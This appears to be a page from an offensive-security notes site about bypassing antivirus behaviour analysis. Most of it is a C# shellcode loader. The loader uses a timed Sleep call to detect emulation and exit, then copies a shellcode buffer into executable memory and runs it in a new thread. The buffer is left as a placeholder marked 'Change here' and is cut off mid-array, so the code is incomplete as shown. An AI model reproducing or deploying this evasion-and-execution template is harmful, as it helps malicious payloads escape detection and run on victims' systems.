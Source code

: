 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: AV_Bypassing_BA
---
```


<span style="font-size: 35px; color:red"><b>Bypassing Behaviour Analisys</b></span>
&nbsp;
One of the oldest behavior analysis bypass techniques revolves around time delays. If an application is running in a simulator and the heuristics engine encounters a pause or sleep instruction, it will "fast forward" through the delay to the point that the application resumes its actions. This avoids a potentially long wait time during a heuristics scan.

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

		[DllImport("kernel32.dll")]
		static extern void Sleep(uint dwMilliseconds);

        static void Main(string[] args)
        {

			DateTime t1 = DateTime.Now; //SLEEP FUNC TO CHECK SIMULATION (If skipped, it's an AV simulation, therefore stops execution to not being detected)
		    Sleep(2000);
		    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
		    if(t2 < 1.5)
		    {
		        return;
		    }
		    
            byte[] buf = new byte[630] {0xfc,0x48,0x83,0xe4, //Change here
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
